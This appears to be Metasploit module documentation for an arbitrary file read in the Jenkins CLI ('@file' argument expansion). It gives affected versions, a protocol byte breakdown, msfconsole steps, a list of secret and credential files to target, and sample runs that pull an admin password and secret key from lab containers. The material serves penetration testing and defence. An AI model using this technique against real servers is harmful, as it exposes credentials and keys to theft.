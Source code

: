 ## Vulnerable Application

This module utilizes the Jenkins cli protocol to run the `help` command.
The cli is accessible with read-only permissions by default, which are
all thats required.

Jenkins cli utilizes `args4j's` `parseArgument`, which calls `expandAtFiles` to
replace any `@<filename>` with the contents of a file. We are then able to retrieve
the error message to read up to the first two lines of a file.

Exploitation by hand can be done with the cli, see markdown documents for additional
instructions.

There are a few exploitation oddities:
1. The injection point for the `help` command requires 2 input arguments.
When the `expandAtFiles` is called, each line of the `FILE_PATH` becomes an input argument.
If a file only contains one line, it will throw an error: `ERROR: You must authenticate to access this Jenkins.`
However, we can pad out the content by supplying a first argument.
2. There is a strange timing requirement where the `download` (or first) request must get
to the server first, but the `upload` (or second) request must be very close behind it.
From testing against the docker image, it was found values between `.01` and `1.9` were
viable. Due to the round trip time of the first request and response happening before
request 2 would be received, it is necessary to use threading to ensure the requests
happen within rapid succession.

Files of value:

 * /var/jenkins_home/secret.key
 * /var/jenkins_home/secrets/master.key
 * /var/jenkins_home/secrets/initialAdminPassword
 * /etc/passwd
 * /etc/shadow
 * Project secrets and credentials
 * Source code, build artifacts

Vulnerable versions include:

 * < 2.442
 * LTS < 2.426.3

### Protocol Breakdown

A few samples of the protocol that was observed, how to generate it, and the breakdown of fields.
 
|                                           | **Generator**                                                                    | **Heading**                  | **Pad (1)**      | **Unknown (len(@file_name) + 2)** | **len(@file_name)** | **@** | **file_name**            | **Unknown**  | **len(encoding)** | **UTF-8**  | **Unknown**  | **len(locality)** | **en_US**  | **footer** |
|-------------------------------------------|----------------------------------------------------------------------------------|------------------------------|------------------|-------------|---------------------|-------|--------------------------|--------------|-------------------|------------|--------------|-------------------|------------|------------|
| **no pad multi line file (/tmp/file.22)** | java -jar jenkins-cli.jar -s http://localhost:8080/ -http help "@/tmp/test.22"   | 0000000600000468656c70000000 |                  | 0f0000      | 0d                  | 40    | 2f746d702f746573742e3232 | 000000070200 | 05                | 5554462d38 | 000000070100 | 05                | 656e5f5553 | 0000000003 |
| **no pad single line file (/tmp/file.1)** | java -jar jenkins-cli.jar -s http://localhost:8080/ -http help "@/tmp/test.1"    | 0000000600000468656c70000000 |                  | 0e0000      | 0c                  | 40    | 2f746d702f746573742e31   | 000000070200 | 05                | 5554462d38 | 000000070100 | 05                | 656e5f5553 | 0000000003 |
| **pad multi line file (/tmp/file.22)**    | java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/tmp/test.22" | 0000000600000468656c70000000 | 0300000131000000 | 0f0000      | 0d                  | 40    | 2f746d702f746573742e3232 | 000000070200 | 05                | 5554462d38 | 000000070100 | 05                | 656e5f5553 | 0000000003 |
| **pad single line file (/tmp/file.1)**    | java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/tmp/test.1"  | 0000000600000468656c70000000 | 0300000131000000 | 0e0000      | 0c                  | 40    | 2f746d702f746573742e31   | 000000070200 | 05                | 5554462d38 | 000000070100 | 05                | 656e5f5553 | 0000000003 |

### Docker Setup

Version 2.440: `docker run -p 8080:8080 -p 50000:50000 jenkins/jenkins:2.440-jdk17`

LTS Version 2.426.2: `docker run -p 8080:8080 -p 50000:50000 jenkins/jenkins:2.426.2-lts`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/jenkins_ccli_ampersand_arbitrary_file_read`
1. Do: `set rhost [ip]`
1. Do: `run`
1. You should get the first two lines of the `FILE_PATH`

## Options

### FILE_PATH

File path to read from the server. Defaults to `/etc/passwd`.

Other files which may be of value:
 * `/var/jenkins_home/secret.key`
 * `/var/jenkins_home/secrets/master.key`
 * `/var/jenkins_home/secrets/initialAdminPassword`
 * `/etc/passwd`
 * `/etc/shadow`
 * Project secrets and credentials
 * Source code, build artifacts

### DELAY

Delay between first and second request to ensure first request gets there on time, but the second request is very quickly behind it.
Defaults to `0.5`

Testing against the docker image showed values between `.01` and `1.9` were successful.

### ENCODING

Encoding to use for reading the file. This may mangle binary files. Defaults to `UTF-8`

### LOCALITY

Locality to use for reading the file. This may mangle binary files. Defaults to `en_US`

## Scenarios

### jenkins 2.440-jdk17 on Docker

```
msf6 > use auxiliary/gather/auxiliary/gather/jenkins_ccli_ampersand_arbitrary_file_read
msf6 auxiliary(gather/auxiliary/gather/jenkins_ccli_ampersand_arbitrary_file_read) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 auxiliary(gather/auxiliary/gather/jenkins_ccli_ampersand_arbitrary_file_read) > set file_path /var/jenkins_home/secrets/initialAdminPassword
file_path => /var/jenkins_home/secrets/initialAdminPassword
msf6 auxiliary(gather/auxiliary/gather/jenkins_ccli_ampersand_arbitrary_file_read) > run
[*] Running module against 127.0.0.1

[*] Sending requests with UUID: ed148f4d-709a-4d16-a452-4509f3a37ed6
[*] Re-attempting with padding for single line output file
[+] /var/jenkins_home/secrets/initialAdminPassword file contents retrieved (first line or 2):
f5d5f6e98e1f466aad22c0f81ca48fb0
[+] Results saved to: /root/.msf4/loot/20240130204021_default_127.0.0.1_jenkins.file_717110.txt
[*] Auxiliary module execution completed
```

### jenkins 2.426.2-lts on Docker

```
msf6 > use auxiliary/gather/auxiliary/gather/jenkins_ccli_ampersand_arbitrary_file_read
msf6 auxiliary(gather/auxiliary/gather/jenkins_ccli_ampersand_arbitrary_file_read) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 auxiliary(gather/auxiliary/gather/jenkins_ccli_ampersand_arbitrary_file_read) > set file_path /var/jenkins_home/secret.key
file_path => /var/jenkins_home/secret.key
msf6 auxiliary(gather/auxiliary/gather/jenkins_ccli_ampersand_arbitrary_file_read) > run
[*] Running module against 127.0.0.1

[*] Sending requests with UUID: 0d69c3f1-7695-4db1-a0c6-08108f33e339
[*] Re-attempting with padding for single line output file
[+] /var/jenkins_home/secret.key file contents retrieved (first line or 2):
6ce26592ad3683cc8d056bea07ffa2696f1b14f0db64dbd122c50ab930e279ad
[+] Results saved to: /root/.msf4/loot/20240130204241_default_127.0.0.1_jenkins.file_317409.txt
[*] Auxiliary module execution completed
```
